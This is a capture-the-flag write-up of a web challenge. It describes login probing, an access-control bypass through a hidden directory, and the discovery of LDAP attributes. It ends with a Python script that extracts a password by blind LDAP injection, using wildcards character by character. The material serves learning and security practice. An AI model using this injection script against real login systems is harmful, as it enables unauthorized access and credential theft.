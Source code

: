 ## Skills involved: Blind testing

I wasn't familiar with the technology at all. Most hints on the forum were cryptic but there are helpful ones.

<details>
  <summary> Hint 1: </summary>
  
  You can skip the login without any knowledge, you can also try poking the login to gain more information.
</details>
<details>
  <summary> Hint 2: </summary>
  
  The content in the second page can help a lot.
</details>
<details>
  <summary> <b>Solution:</b> </summary>
  <br/>
  
  My first idea was to try for SQL injection. I tried common SQL injection payloads like `'` `"` `)` `;--` `#`  hoping to either cause an error or bypass auth.
  
  Only `)` gave 500. I knew that it was an injection vulnerability but that is not enough information.
  
  I also 'bypassed' login by accessing `/9643.../` directory, which gave me a search page. The search was not useful as I can only get 403, but the javascript revealed information on the data format to be received: `{cn: any, sn: any, mail: any, homePhone: any}[]`.
  
  Some googling revealed that they are [LDAP attributes](https://docs.bmc.com/docs/fpsc121/ldap-attributes-and-associated-fields-495323340.html). I have heard of LDAP due to the [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability but I had no idea what LDAP was - I didn't even know Java.
  
  Eventually I learnt about [LDAP injection](https://owasp.org/www-community/attacks/LDAP_Injection). With reference to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection), here's a short Python script I wrote to recover the flag.
  
``` py
import requests, string
domain = "***"
flag = ""
letters = string.digits+string.ascii_letters+"_}!"
not_done = True
while not_done:
  not_done = False
  for c in letters:
    r = requests.post(f"http://{domain}/login", data={'username': 'reese', 'password': flag+c+"*"})
    if 'Set-Cookie' in r.history[0].headers:
      not_done = True
      flag += c
      print(flag)
      break
print(flag)
```
</details>
